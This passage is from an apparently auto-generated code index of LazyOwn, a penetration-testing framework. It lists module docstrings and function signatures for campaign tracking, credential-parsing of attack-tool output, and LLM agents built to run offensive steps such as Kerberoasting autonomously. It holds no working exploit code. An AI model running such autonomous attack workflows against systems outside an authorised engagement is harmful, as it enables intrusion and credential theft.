lazyaddons/*.yaml  (enabled: true)  → lazyown_addon_<name> tools/*.tool       (active: true)   → lazyown_tool_<name> plugins/*.yaml     (enabled: true)  → lazyown_plugin_<name>  All discovered tools are executed by running the LazyOwn shell command or, for .tool files, by substituting the command template and running it via subprocess.  Integration in lazyown_mcp.py ────────────────────────────── from lazyown_automapper import AutoMapper  _automapper = AutoMapper(LAZYOWN_DIR)  # list_tools(): return STATIC_TOOLS + _automapper.mcp_tools()  # call_tool(): result = _automapper.dispatch(name, arguments, config) if result is not None: return result  Auto-regeneration of lazyown.md", "id": "skills/lazyown_automapper.py", "kind": "module", "label": "lazyown_automapper.py", "language": "py", "sha256": "aa184c51cd554d4e", "symbol_count": 23, "symbols": [{"kind": "function", "line": 68, "name": "_safe_name", "signature": "def _safe_name(raw)"}, {"kind": "function", "line": 79, "name": "_load_yaml", "signature": "def _load_yaml(path)"}, {"doc": "Convert a lazyaddons/plugins params list to JSON Schema.", "kind": "function", "line": 104, "name": "_params_to_schema", "signature": "def _params_to_schema(params)"}, {"doc": "Return list of addon spec dicts for enabled lazyaddons.", "kind": "function", "line": 142, "name": "_load_addons", "signature": "def _load_addons(lazyaddons_dir)"}, {"doc": "Return list of spec dicts for active pwntomate .tool files.", "kind": "function", "line": 173, "name": "_load_dottools", "signature": "def _load_dottools(tools_dir)"}, {"doc": "Return list of spec dicts for enabled plugins (Lua+YAML pairs).", "kind": "function", "line": 214, "name": "_load_plugins", "signature": "def _load_plugins(plugins_dir)"}, {"doc": "Fill pwntomate-style {placeholders} in a .tool command template.", "kind": "function", "line": 247, "name": "_expand_tool_command", "signature": "def _expand_tool_command(template, ip, port, ssl, outputdir, toolname)"}, {"kind": "function", "line": 265, "name": "_addon_to_mcp_tool", "signature": "def _addon_to_mcp_tool(spec)"}, {"kind": "function", "line": 281, "name": "_tool_to_mcp_tool", "signature": "def _tool_to_mcp_tool(spec)"}, {"kind": "function", "line": 314, "name": "_plugin_to_mcp_tool", "signature": "def _plugin_to_mcp_tool(spec)"}, {"doc": "Discover and cache all dynamic MCP tools from lazyaddons/, tools/, plugins/.\n\nCall .mcp_tools() to get the list of types.Tool objects.\nCall .dispatch(name, arguments, config) → Optional[str] to execute.\nCall .update_skills_md(path) to regenerate the auto-discovered section.", "kind": "class", "line": 332, "name": "AutoMapper", "signature": "class AutoMapper"}, {"kind": "method", "line": 341, "name": "__init__", "signature": "def __init__(self, lazyown_dir)"}, {"kind": "method", "line": 350, "name": "_scan", "signature": "def _scan(self)"}, {"doc": "Force a rescan of all source directories.", "kind": "method", "line": 364, "name": "rescan", "signature": "def rescan(self)"}, {"doc": "Return list of mcp types.Tool objects for all discovered extensions.", "kind": "method", "line": 368, "name": "mcp_tools", "signature": "def mcp_tools(self)"}, {"doc": "Execute a dynamic tool.  Returns the output string or None if name\nis not a known dynamic tool (caller should fall through to static dispatch).\n\nrun_command_fn: callable(cmd: str, timeout: int=30) → str\n    When provided, addon/plugin calls go through the LazyOwn shell.\n    .tool commands always run via subprocess.", "kind": "method", "line": 389, "name": "dispatch", "signature": "def dispatch(self, name, arguments, config, run_command_fn)"}, {"kind": "method", "line": 420, "name": "_run_addon", "signature": "def _run_addon(self, spec, arguments, config, run_fn)"}, {"kind": "method", "line": 452, "name": "_run_dottool", "signature": "def _run_dottool(self, spec, arguments, config)"}, {"kind": "method", "line": 475, "name": "_run_plugin", "signature": "def _run_plugin(self, spec, arguments, config, run_fn)"}, {"kind": "method", "line": 503, "name": "_shell_run", "signature": "def _shell_run(cmd, timeout)"}, {"doc": "Append / replace the auto-discovered section in skills/lazyown.md.\nThe section is delimited by HTML comments so it can be replaced cleanly.", "kind": "method", "line": 524, "name": "update_skills_md", "signature": "def update_skills_md(self, skills_md_path)"}, {"kind": "method", "line": 571, "name": "stats", "signature": "def stats(self)"}, {"doc": "Return raw spec dicts (useful for debugging / reporting).", "kind": "method", "line": 581, "name": "list_specs", "signature": "def list_specs(self)"}]}, {"doc": "LazyOwn CampaignStore ===================== Groups multiple targets under a single named penetration-test engagement.  A *campaign* tracks: - A human-readable engagement name  (e.g. \"HTB-Mirage\", \"Client-ACME-2026\") - Scope: CIDR ranges / individual IPs that are authorised for testing - Per-host attack phase  (recon → scan → exploit → post-exploit → complete) - Milestones achieved during the engagement  (initial_foothold, priv_esc, …) - Start / end timestamps  and freeform notes  Persistence: sessions/campaign.json  (one active campaign at a time)  Usage ----- python3 skills/lazyown_campaign.py new \"HTB-Mirage\" --scope 10.10.11.0/24 python3 skills/lazyown_campaign.py status python3 skills/lazyown_campaign.py phase 10.10.11.78 exploit python3 skills/lazyown_campaign.py milestone 10.10.11.78 initial_foothold --notes \"via evil-winrm\" python3 skills/lazyown_campaign.py complete python3 skills/lazyown_campaign.py add-scope 10.10.10.5", "id": "skills/lazyown_campaign.py", "kind": "module", "label": "lazyown_campaign.py", "language": "py", "sha256": "696c20c623b1115f", "symbol_count": 26, "symbols": [{"doc": "Return current UTC time as an ISO-8601 string (no microseconds).", "kind": "function", "line": 59, "name": "_now_iso", "signature": "def _now_iso()"}, {"doc": "Return True if *ip* belongs to any entry in *scope*.\n\nEach scope entry is tried as an ipaddress network first; if that fails\nthe function falls back to a simple string-prefix comparison so that\nhostnames stored as plain strings (e.g. \"api.acme.com\") also match.\n\nParameters\n----------\nip:\n    The IP address (or hostname) to test.\nscope:\n    A list of CIDR strings (``10.10.11.0/24``) or individual addresses /\n    hostnames (``10.10.10.5``, ``api.acme.com``).", "kind": "function", "line": 64, "name": "is_ip_in_scope", "signature": "def is_ip_in_scope(ip, scope)"}, {"doc": "Represents a single penetration-test engagement.\n\nAttributes\n----------\ncampaign_id:\n    8-character lowercase hex identifier generated at creation time.\nname:\n    Human-readable engagement label (e.g. ``\"HTB-Mirage\"``).\nscope:\n    List of CIDR ranges or individual IPs / hostnames in scope.\nstarted_at:\n    ISO-8601 timestamp (UTC) of when the campaign was created.\nended_at:\n    ISO-8601 timestamp when the campaign was completed, or ``\"\"`` if\n    still active.\nphase_per_host:\n    Mapping of ``ip → phase``.  Known phases (not enforced):\n    ``recon``, ``scan``, ``exploit``, ``post-exploit``, ``complete``.\nmilestones:\n    Ordered list of milestone dicts::\n\n        {\n            \"host\":      \"10.10.11.78\",\n            \"type\":      \"initial_foothold\",\n            \"timestamp\": \"2026-03-19T14:00:00Z\",\n            \"notes\":     \"via evil-winrm\"\n        }\nnotes:\n    Freeform engagement notes (operator journal).", "kind": "class", "line": 105, "name": "Campaign", "signature": "class Campaign"}, {"doc": "A single distilled lesson extracted from a completed campaign.\n\nStored in hive memory (ChromaDB) so future campaigns can retrieve\nrelevant lessons via semantic search.", "kind": "class", "line": 175, "name": "LessonLearned", "signature": "class LessonLearned"}, {"doc": "Post-campaign reflection engine.\n\nAfter a campaign completes, analyses milestones and notes to produce\na set of LessonLearned records and persists them to:\n  1. sessions/campaign_lessons.jsonl  — local flat file for offline review\n  2. hive_memory (ChromaDB / SQLite)  — for semantic retrieval in future campaigns\n\nDesign\n------\n- Single Responsibility : reflection + lesson extraction only\n- Open/Closed           : lesson extractors added as _EXTRACTORS entries\n- Dependency Inversion  : hive memory injected (or None for offline mode)\n\nThe lesson extraction is intentionally heuristic and conservative — it\nonly produces lessons from concrete observed milestones, not from\nspeculative reasoning.", "kind": "class", "line": 193, "name": "EpisodeReflectionEngine", "signature": "class EpisodeReflectionEngine"}, {"doc": "Thin persistence layer around :class:`Campaign`.\n\nAll mutating methods immediately flush changes to\n``sessions/campaign.json``.", "kind": "class", "line": 375, "name": "CampaignStore", "signature": "class CampaignStore"}, {"kind": "function", "line": 623, "name": "_build_parser", "signature": "def _build_parser()"}, {"kind": "function", "line": 667, "name": "main", "signature": "def main(argv)"}, {"doc": "Return True when the campaign has not been completed yet.", "kind": "method", "line": 148, "name": "is_active", "signature": "def is_active(self)"}, {"doc": "Serialise to a plain dict suitable for JSON persistence.", "kind": "method", "line": 152, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Deserialise from a dict loaded out of JSON.", "kind": "method", "line": 157, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 189, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Parameters\n----------\nhive_memory:\n    Optional HiveMemory instance for semantic storage.\n    When None, lessons are only written to the flat JSONL file.", "kind": "method", "line": 256, "name": "__init__", "signature": "def __init__(self, hive_memory)"}, {"doc": "Extract lessons from *campaign* and persist them.\n\nReturns the list of LessonLearned records produced.", "kind": "method", "line": 268, "name": "reflect", "signature": "def reflect(self, campaign)"}, {"doc": "Write lessons to the flat JSONL file and to hive memory.", "kind": "method", "line": 332, "name": "_persist_lessons", "signature": "def _persist_lessons(self, lessons)"}, {"kind": "method", "line": 382, "name": "__init__", "signature": "def __init__(self, campaign_file)"}, {"doc": "Persist *campaign* to disk (atomic write via temp-then-rename).", "kind": "method", "line": 388, "name": "_save", "signature": "def _save(self, campaign)"}, {"doc": "Load the current campaign from disk.\n\nReturns\n-------\nCampaign | None\n    The campaign if the file exists and is valid JSON, else ``None``.", "kind": "method", "line": 395, "name": "load", "signature": "def load(self)"}, {"doc": "Create and persist a brand-new campaign.\n\nParameters\n----------\nname:\n    Human-readable engagement label.\nscope:\n    Initial list of CIDR ranges / IPs / hostnames.\nnotes:\n    Optional freeform notes to attach at creation time.\n\nReturns\n-------\nCampaign\n    The newly created (and saved) campaign.", "kind": "method", "line": 414, "name": "create", "signature": "def create(self, name, scope, notes)"}, {"doc": "Mark the active campaign as completed and optionally run reflection.\n\nParameters\n----------\nnotes:\n    Optional closing notes to append to the campaign's notes field.\nrun_reflection:\n    When True (default), run EpisodeReflectionEngine after marking\n    completion to extract and persist lessons learned.\nhive_memory:\n    Optional HiveMemory instance for semantic lesson storage.\n    Only used when run_reflection=True.\n\nReturns\n-------\nList[LessonLearned]\n    The lessons extracted (empty list when run_reflection=False).\n\nRaises\n------\nFileNotFoundError\n    If no campaign file exists.\nValueError\n    If the campaign was already completed.", "kind": "method", "line": 445, "name": "complete", "signature": "def complete(self, notes, run_reflection, hive_memory)"}, {"doc": "Set (or update) the attack phase for *host*.\n\nParameters\n----------\nhost:\n    Target IP address or hostname.\nphase:\n    Phase label (e.g. ``\"recon\"``, ``\"exploit\"``).", "kind": "method", "line": 500, "name": "update_phase", "signature": "def update_phase(self, host, phase)"}, {"doc": "Record a milestone achievement for *host*.\n\nParameters\n----------\nhost:\n    Target IP / hostname this milestone applies to.\nmilestone_type:\n    Short label such as ``\"initial_foothold\"``, ``\"priv_esc\"``,\n    ``\"data_exfil\"``, ``\"lateral_movement\"``.\nnotes:\n    Optional freeform description of how the milestone was reached.", "kind": "method", "line": 516, "name": "add_milestone", "signature": "def add_milestone(self, host, milestone_type, notes)"}, {"doc": "Append *ip_or_cidr* to the campaign scope (idempotent).\n\nParameters\n----------\nip_or_cidr:\n    A CIDR range (``10.10.10.0/24``) or individual address /\n    hostname to add.", "kind": "method", "line": 540, "name": "add_to_scope", "signature": "def add_to_scope(self, ip_or_cidr)"}, {"doc": "Return True if *ip* falls within the campaign scope.", "kind": "method", "line": 559, "name": "in_scope", "signature": "def in_scope(self, ip)"}, {"doc": "Return a human-readable multi-line summary of the campaign.", "kind": "method", "line": 566, "name": "summary", "signature": "def summary(self)"}, {"doc": "Load the campaign or raise FileNotFoundError.", "kind": "method", "line": 610, "name": "_require", "signature": "def _require(self)"}]}, {"doc": "LazyOwn CLAUDE.md Hierarchical Loader (Claude Code style)  4-level hierarchy (highest → lowest priority): 1. managed  — /etc/lazyown/CLAUDE.md         (system policy, read-only) 2. user     — ~/.lazyown/CLAUDE.md            (user preferences) 3. project  — ./CLAUDE.md, ./.lazyown/CLAUDE.md, ./.lazyown/rules/*.md 4. local    — ./CLAUDE.local.md               (gitignored, machine-specific)  All levels are merged into a single instructions string passed to the LLM. Only project and local files are scanned per session (path-sensitive).", "id": "skills/lazyown_claudemd.py", "kind": "module", "label": "lazyown_claudemd.py", "language": "py", "sha256": "cc92b32d892c36ef", "symbol_count": 8, "symbols": [{"doc": "Load and merge CLAUDE.md instructions from all hierarchy levels.\n\nLazy-loads rules directory only when the current working directory\ncontains it (avoids scanning unrelated paths).", "kind": "class", "line": 24, "name": "ClaudeMdLoader", "signature": "class ClaudeMdLoader"}, {"kind": "method", "line": 32, "name": "__init__", "signature": "def __init__(self, cwd)"}, {"doc": "Return merged instructions string from all applicable levels.", "kind": "method", "line": 35, "name": "load", "signature": "def load(self)"}, {"doc": "Return metadata for all CLAUDE.md files that exist.", "kind": "method", "line": 90, "name": "list_files", "signature": "def list_files(self)"}, {"doc": "Create/overwrite ~/.lazyown/CLAUDE.md.", "kind": "method", "line": 115, "name": "create_user_file", "signature": "def create_user_file(self, content)"}, {"doc": "Create CLAUDE.md (or CLAUDE.local.md) in cwd.", "kind": "method", "line": 121, "name": "create_project_file", "signature": "def create_project_file(self, content, local)"}, {"doc": "Add a named rule file to .lazyown/rules/.", "kind": "method", "line": 127, "name": "add_rule", "signature": "def add_rule(self, rule_name, content)"}, {"kind": "method", "line": 135, "name": "status_text", "signature": "def status_text(self)"}]}, {"doc": "LazyOwn Context Compaction Pipeline — 5-layer graduated compression (Claude Code style)  Layers: 1. Budget reduction   — hard cap on individual tool output size 2. Snip              — trim older history entries 3. Microcompact      — remove redundant/boilerplate sections 4. Context collapse  — read-time projection (structural summary) 5. Auto-compact      — template-based session summary (last resort)", "id": "skills/lazyown_context.py", "kind": "module", "label": "lazyown_context.py", "language": "py", "sha256": "37eede534b5f4a70", "symbol_count": 11, "symbols": [{"kind": "class", "line": 50, "name": "CompactionResult", "signature": "class CompactionResult"}, {"doc": "Apply layered compaction to tool output strings.\n\nUsage:\n    compactor = ContextCompactor()\n    result = compactor.compact(content, tool_name=\"lazyown_run_command\")\n    return result.content", "kind": "class", "line": 62, "name": "ContextCompactor", "signature": "class ContextCompactor"}, {"doc": "Convenience wrapper: compact and return string.", "kind": "function", "line": 237, "name": "compact_output", "signature": "def compact_output(content, tool_name)"}, {"kind": "method", "line": 57, "name": "summary", "signature": "def summary(self)"}, {"kind": "method", "line": 72, "name": "__init__", "signature": "def __init__(self, budget_override, snip_threshold, collapse_threshold)"}, {"doc": "Hard-cap output. Keeps head + tail for readability.", "kind": "method", "line": 84, "name": "apply_budget", "signature": "def apply_budget(self, content, tool_name)"}, {"doc": "Remove duplicate consecutive lines (log noise).", "kind": "method", "line": 99, "name": "snip", "signature": "def snip(self, content)"}, {"doc": "Strip known low-signal patterns. Cheap, always run on >500 chars.", "kind": "method", "line": 120, "name": "microcompact", "signature": "def microcompact(self, content)"}, {"doc": "Replace repetitive sections with a structural summary.", "kind": "method", "line": 136, "name": "collapse", "signature": "def collapse(self, content, tool_name)"}, {"doc": "Template-based session summary when full pipeline is insufficient.\nentries: list of {\"type\": str, \"data\": dict} from SessionTranscript.", "kind": "method", "line": 159, "name": "auto_compact_session", "signature": "def auto_compact_session(entries)"}, {"doc": "Apply all applicable layers in order.", "kind": "method", "line": 203, "name": "compact", "signature": "def compact(self, content, tool_name)"}]}, {"doc": "LazyOwn Unified Daemon ====================== Replaces three separate background processes with a single asyncio daemon:  Role 1 — File Watcher     (was: sessions_watcher.py) Watches sessions/ for new/modified files: - scan_*.nmap     → generate plan.txt via Ollama, inject PLAN_READY objective - scan_*.nmap.xml → ingest into FactStore, update soul.md OS hint - sessions/<ip>/<port>/<tool>/*.txt → ingest into FactStore, update soul.md creds - sessions/plan.txt → emit PLAN_UPDATED event  Role 2 — Event Engine Poll (was: heartbeat.py + event_engine CSV tail) Every N seconds: tail LazyOwn_session_report.csv for new rows → run rule matching → emit matched events to events.jsonl  Role 3 — Heartbeat        (was: heartbeat.py) Every 30 seconds: emit a HEARTBEAT event so the MCP can verify the daemon is alive; update sessions/daemon_status.json with uptime and stats.  Communication: All roles share a single asyncio.Queue for internal events. External consumers (MCP) read sessions/events.jsonl as before — no interface change.  Management: python3 skills/lazyown_daemon.py start    # fork and detach python3 skills/lazyown_daemon.py stop     # kill via PID file python3 skills/lazyown_daemon.py status   # print status from daemon_status.json python3 skills/lazyown_daemon.py run      # run in foreground (for debugging)", "id": "skills/lazyown_daemon.py", "kind": "module", "label": "lazyown_daemon.py", "language": "py", "sha256": "ae4f57f10b1911ca", "symbol_count": 24, "symbols": [{"doc": "Watch sessions/ for new/modified files and dispatch handlers.", "kind": "function", "line": 150, "name": "file_watcher_loop", "signature": "def file_watcher_loop(queue)"}, {"doc": "Async polling fallback: walk sessions/ every WATCHER_POLL_S seconds.", "kind": "function", "line": 163, "name": "_poll_watcher_loop", "signature": "def _poll_watcher_loop(queue)"}, {"doc": "Run watchdog Observer in a thread, push events to queue.", "kind": "function", "line": 193, "name": "_watchdog_async", "signature": "def _watchdog_async(queue)"}, {"doc": "Consume FILE events from the queue and call _dispatch in executor.", "kind": "function", "line": 223, "name": "file_event_consumer", "signature": "def file_event_consumer(queue)"}, {"doc": "Tail CSV, match rules, emit events — every ENGINE_INTERVAL_S seconds.", "kind": "function", "line": 240, "name": "event_engine_loop", "signature": "def event_engine_loop()"}, {"doc": "Emit HEARTBEAT event and write daemon_status.json every 30 seconds.", "kind": "function", "line": 280, "name": "heartbeat_loop", "signature": "def heartbeat_loop()"}, {"doc": "Keeps the TopoSwarm MCP server alive as a subprocess.\n\nStarts toposwarm_lazyown_orchestrator.py --mcp in stdio mode so LazyOwn\ncan use it as a local brain without cloud APIs.  If it crashes, restarts\nafter 10 s with exponential backoff up to 120 s.", "kind": "function", "line": 332, "name": "toposwarm_keepalive_loop", "signature": "def toposwarm_keepalive_loop()"}, {"kind": "function", "line": 390, "name": "_main_async", "signature": "def _main_async()"}, {"kind": "function", "line": 422, "name": "_write_pid", "signature": "def _write_pid()"}, {"kind": "function", "line": 427, "name": "_clear_pid", "signature": "def _clear_pid()"}, {"kind": "function", "line": 432, "name": "_read_pid", "signature": "def _read_pid()"}, {"kind": "function", "line": 439, "name": "_is_running", "signature": "def _is_running()"}, {"doc": "Run in foreground.", "kind": "function", "line": 453, "name": "cmd_run", "signature": "def cmd_run()"}, {"doc": "Fork, detach, and run in background.", "kind": "function", "line": 462, "name": "cmd_start", "signature": "def cmd_start()"}, {"doc": "Send SIGTERM to the running daemon.", "kind": "function", "line": 495, "name": "cmd_stop", "signature": "def cmd_stop()"}, {"doc": "Print status from daemon_status.json.", "kind": "function", "line": 513, "name": "cmd_status", "signature": "def cmd_status()"}, {"kind": "function", "line": 167, "name": "_scan", "signature": "def _scan()"}, {"kind": "class", "line": 197, "name": "_Handler", "signature": "class _Handler(FileSystemEventHandler)"}, {"kind": "function", "line": 95, "name": "_dispatch", "signature": "def _dispatch(path)"}, {"kind": "function", "line": 108, "name": "process_new_rows", "signature": "def process_new_rows()"}, {"kind": "function", "line": 111, "name": "_append_event", "signature": "def _append_event(ev)"}, {"kind": "method", "line": 198, "name": "_push", "signature": "def _push(self, src)"}, {"kind": "method", "line": 201, "name": "on_created", "signature": "def on_created(self, event)"}, {"kind": "method", "line": 205, "name": "on_modified", "signature": "def on_modified(self, event)"}]}, {"doc": "LazyOwn FactStore ================= Structured fact extraction from nmap XML files and pwntomate tool output.  Reads  sessions/scan_*.nmap.xml   → host/port/service facts Reads  sessions/*.txt              → credentials, shares, access-level hints Writes sessions/policy_facts.json  → single merged fact store  Consumed by lazyown_mcp.py auto_loop to parameterise commands with real discovered data instead of generic category defaults.  Usage: python3 skills/lazyown_facts.py parse [--target TARGET] python3 skills/lazyown_facts.py show  [--target TARGET] python3 skills/lazyown_facts.py clean", "id": "skills/lazyown_facts.py", "kind": "module", "label": "lazyown_facts.py", "language": "py", "sha256": "c3544491a9659b39", "symbol_count": 79, "symbols": [{"doc": "All file paths and constants for the FactStore.", "kind": "class", "line": 34, "name": "Config", "signature": "class Config"}, {"doc": "A single open port on a host.", "kind": "class", "line": 62, "name": "ServiceFact", "signature": "class ServiceFact"}, {"doc": "A credential pair discovered by any tool.", "kind": "class", "line": 75, "name": "CredentialFact", "signature": "class CredentialFact"}, {"doc": "A network share.", "kind": "class", "line": 87, "name": "ShareFact", "signature": "class ShareFact"}, {"doc": "Evidence of access to a host.", "kind": "class", "line": 97, "name": "AccessFact", "signature": "class AccessFact"}, {"doc": "A vulnerability or weakness found on a host.", "kind": "class", "line": 107, "name": "VulnerabilityFact", "signature": "class VulnerabilityFact"}, {"doc": "A web path found by directory enumeration.", "kind": "class", "line": 120, "name": "DiscoveredPath", "signature": "class DiscoveredPath"}, {"doc": "All known facts for a single target IP.", "kind": "class", "line": 132, "name": "HostFacts", "signature": "class HostFacts"}, {"doc": "Parse a single nmap XML file into ServiceFact objects.", "kind": "class", "line": 166, "name": "INmapXmlParser", "signature": "class INmapXmlParser"}, {"doc": "Base class for tool-output text parsers.", "kind": "class", "line": 212, "name": "ITextOutputParser", "signature": "class ITextOutputParser"}, {"doc": "Parse crackmapexec / nxc output.", "kind": "class", "line": 240, "name": "CrackMapExecParser", "signature": "class CrackMapExecParser(ITextOutputParser)"}, {"doc": "Parse enum4linux / enum4linux-ng output.", "kind": "class", "line": 292, "name": "Enum4linuxParser", "signature": "class Enum4linuxParser(ITextOutputParser)"}, {"doc": "Parse impacket secretsdump output.", "kind": "class", "line": 331, "name": "SecretsdumpParser", "signature": "class SecretsdumpParser(ITextOutputParser)"}, {"doc": "Parse ldapsearch / ldapdomaindump output.", "kind": "class", "line": 366, "name": "LdapParser", "signature": "class LdapParser(ITextOutputParser)"}, {"doc": "Parse kerbrute user enumeration output.", "kind": "class", "line": 395, "name": "KerbruteParser", "signature": "class KerbruteParser(ITextOutputParser)"}, {"doc": "Parse rpcclient / enum_rpcbind output.", "kind": "class", "line": 416, "name": "RpcclientParser", "signature": "class RpcclientParser(ITextOutputParser)"}, {"doc": "Parse gobuster / ffuf / dirb / dirsearch web directory scan output.", "kind": "class", "line": 435, "name": "GobusterFfufParser", "signature": "class GobusterFfufParser(ITextOutputParser)"}, {"doc": "Parse nikto web scanner output.", "kind": "class", "line": 494, "name": "NiktoParser", "signature": "class NiktoParser(ITextOutputParser)"}, {"doc": "Parse nuclei scanner output.", "kind": "class", "line": 537, "name": "NucleiParser", "signature": "class NucleiParser(ITextOutputParser)"}, {"doc": "Parse sslscan / sslyze SSL/TLS analysis output.", "kind": "class", "line": 573, "name": "SslscanParser", "signature": "class SslscanParser(ITextOutputParser)"}, {"doc": "Catch-all: mine any text for credential-like patterns.", "kind": "class", "line": 625, "name": "GenericOutputParser", "signature": "class GenericOutputParser(ITextOutputParser)"}, {"doc": "Central structured fact repository.\n\nParses nmap XML and tool output files, merges them into a per-host\ndata model, and persists everything to sessions/policy_facts.json.\n\nThe file is keyed by host IP: { \"10.10.11.78\": { ... } }", "kind": "class", "line": 667, "name": "FactStore", "signature": "class FactStore"}, {"doc": "A pwntomate .tool file definition.", "kind": "class", "line": 1016, "name": "ToolDefinition", "signature": "class ToolDefinition"}, {"doc": "Write a new pwntomate .tool JSON file.\n\nSanitises the toolname for the filesystem (spaces → underscores).\nReturns the path written.", "kind": "function", "line": 1025, "name": "create_tool_file", "signature": "def create_tool_file(toolname, command, trigger, active, tools_dir)"}, {"kind": "function", "line": 1051, "name": "_cmd_parse", "signature": "def _cmd_parse(args)"}, {"kind": "function", "line": 1060, "name": "_cmd_show", "signature": "def _cmd_show(args)"}, {"kind": "function", "line": 1065, "name": "_cmd_clean", "signature": "def _cmd_clean(_args)"}, {"kind": "function", "line": 1074, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 45, "name": "default", "signature": "def default(cls)"}, {"kind": "method", "line": 145, "name": "highest_access", "signature": "def highest_access(self)"}, {"kind": "method", "line": 156, "name": "open_ports", "signature": "def open_ports(self)"}, {"kind": "method", "line": 159, "name": "services_by_name", "signature": "def services_by_name(self, name)"}, {"kind": "method", "line": 169, "name": "parse", "signature": "def parse(self, xml_path)"}, {"kind": "method", "line": 217, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 220, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"doc": "Extended parse including vulnerabilities and web paths. Override in subclasses.", "kind": "method", "line": 228, "name": "parse_extended", "signature": "def parse_extended(self, host, content, source_file, port)"}, {"kind": "method", "line": 250, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 257, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 301, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 304, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 341, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 346, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 374, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 377, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 403, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 406, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 424, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 427, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 447, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 450, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 453, "name": "parse_extended", "signature": "def parse_extended(self, host, content, source_file, port)"}, {"kind": "method", "line": 502, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 505, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 508, "name": "parse_extended", "signature": "def parse_extended(self, host, content, source_file, port)"}, {"kind": "method", "line": 545, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 548, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 551, "name": "parse_extended", "signature": "def parse_extended(self, host, content, source_file, port)"}, {"kind": "method", "line": 581, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 584, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 587, "name": "parse_extended", "signature": "def parse_extended(self, host, content, source_file, port)"}, {"kind": "method", "line": 635, "name": "can_parse", "signature": "def can_parse(self, filename, content)"}, {"kind": "method", "line": 638, "name": "parse", "signature": "def parse(self, host, content, source_file)"}, {"kind": "method", "line": 677, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"kind": "method", "line": 702, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 727, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 744, "name": "_host", "signature": "def _host(self, ip)"}, {"kind": "method", "line": 749, "name": "_dedup_services", "signature": "def _dedup_services(self, hf)"}, {"kind": "method", "line": 759, "name": "_dedup_creds", "signature": "def _dedup_creds(self, hf)"}, {"kind": "method", "line": 769, "name": "_dedup_vulns", "signature": "def _dedup_vulns(self, hf)"}, {"kind": "method", "line": 779, "name": "_dedup_paths", "signature": "def _dedup_paths(self, hf)"}, {"doc": "Parse one nmap XML file, merge results, return count of new facts.", "kind": "method", "line": 791, "name": "ingest_xml", "signature": "def ingest_xml(self, xml_path)"}, {"doc": "Parse one tool output file, merge credential/share/access facts.", "kind": "method", "line": 803, "name": "ingest_text", "signature": "def ingest_text(self, txt_path, host_hint)"}, {"doc": "Try to extract an IP from a filename like 10.10.11.78_enum_smb.txt.", "kind": "method", "line": 841, "name": "_guess_host_from_filename", "signature": "def _guess_host_from_filename(filename)"}, {"doc": "Extract port from sessions/<ip>/<port>/<tool>/ directory structure.", "kind": "method", "line": 847, "name": "_guess_port_from_path", "signature": "def _guess_port_from_path(txt_path)"}, {"doc": "Scan sessions/ for all nmap XML and txt files.\n\nIf target is given only process files that appear to belong to that IP.\nReturns a dict of {host: new_facts_count}.", "kind": "method", "line": 859, "name": "parse_all", "signature": "def parse_all(self, target)"}, {"kind": "method", "line": 890, "name": "get_host", "signature": "def get_host(self, host)"}, {"kind": "method", "line": 893, "name": "all_hosts", "signature": "def all_hosts(self)"}, {"doc": "Return a dict of substitution parameters for a command in the given\nattack category.  The auto_loop uses these to build concrete commands.\n\nReturned keys (may be empty strings if unknown):\n    port, service, username, password, hash, shares, domain", "kind": "method", "line": 896, "name": "context_for_command", "signature": "def context_for_command(self, host, category)"}, {"doc": "Return a human-readable summary of stored facts.", "kind": "method", "line": 986, "name": "summary", "signature": "def summary(self, host)"}]}, {"doc": "skills/lazyown_groq_agents.py ============================== Translates LazyOwn MCP tools into Groq-native tool-calling format and provides a multi-agent pool for parallel autonomous operation.  Three layers: GroqToolRegistry  -- 18 LazyOwn-aware sync callables with Groq-compatible schemas GroqAgentPool     -- thread pool that runs LLMBridge agents concurrently Public API        -- spawn_agent / agent_status / agent_result / list_agents  Each agent has access to: run_command, bridge_suggest, bridge_catalog, parquet_context, facts_show, cve_lookup, memory_search, session_status, read_session_file, list_sessions, c2_status, c2_command, task_list, task_add, inject_objective, reactive_suggest, searchsploit, command_help.  Usage from MCP: lazyown_groq_agent(goal=\"Enumerate AD on 10.10.11.78\") lazyown_groq_agent(goal=\"Kerberoast and crack hashes\", backend=\"groq\", async_mode=True)  Usage standalone: python3 skills/lazyown_groq_agents.py spawn \"Enumerate SMB on 10.0.0.5\" --wait python3 skills/lazyown_groq_agents.py tools python3 skills/lazyown_groq_agents.py list", "id": "skills/lazyown_groq_agents.py", "kind": "module", "label": "lazyown_groq_agents.py", "language": "py", "sha256": "34297ce4a2920a0a", "symbol_count": 40, "symbols": [{"kind": "function", "line": 56, 